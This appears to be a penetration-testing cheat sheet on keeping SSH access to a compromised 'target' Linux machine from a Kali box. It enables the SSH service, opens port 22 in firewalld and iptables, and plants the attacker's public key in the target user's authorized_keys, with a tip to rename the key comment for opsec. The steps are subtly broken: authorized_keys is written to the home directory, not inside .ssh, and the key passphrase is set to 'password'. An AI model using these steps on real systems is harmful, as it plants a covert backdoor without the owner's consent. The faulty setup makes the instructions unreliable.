 ## Enable SSH on Linux Target
If SSH is not enabled on the Linux machine you are on, you may want to run the following commands as a privileged user:
```
sudo systemctl status ssh
sudo systemctl start ssh

You can stop or restart ssh with the following for troubleshooting purposes.
sudo systemctl stop ssh
sudo systemctl restart ssh
```

Or this:
```
sudo firewall-cmd --permanent --add-service=ssh
sudo firewall-cmd --reload
```

You can also run this:
```
sudo iptables -A INPUT -p tcp --dport 22 -m conntrack --ctstate NEW,ESTABLISHED -j ACCEPT
sudo iptables -A OUTPUT -p tcp --sport 22 -m conntrack --ctstate ESTABLISHED -j ACCEPT
sudo service iptables save
sudo service iptables restart
```

On your kali machine, create a dir on your loot folder for your target. Then run ssh-keygen to generate an ssh private and public key "id_rsa" (private) and "id_rsa.pub" (public).
```
ON YOUR KALI MACHINE

mkdir ~/loot/target
ssh-keygen -f ~/loot/target/id_rsa
set the password to "password"
```
Print the contents of the id_rsa.pub file - Make sure to copy the contents of that file.:
```
cat id_rsa.pub
```
Next go to the target machine and run the following commands in the home directory of the user you will ssh as:
```
ON TARGET MACHINE

cd /home/user/
mkdir .ssh
touch authorized_keys
```
Next, you will echo and put the contents of the id_rsa.pub from your kali machine to the target machine - you may want to change the name kali@kali for opsec purposes.
```
echo "ssh-rsa some_strings_here_blablabla= kali@kali" > authorized_keys
```
You should now be able to ssh to the target machine with the private key on your kali machine. Run this command from your kali machine:
```
ssh user@target_ip -i id_rsa
```

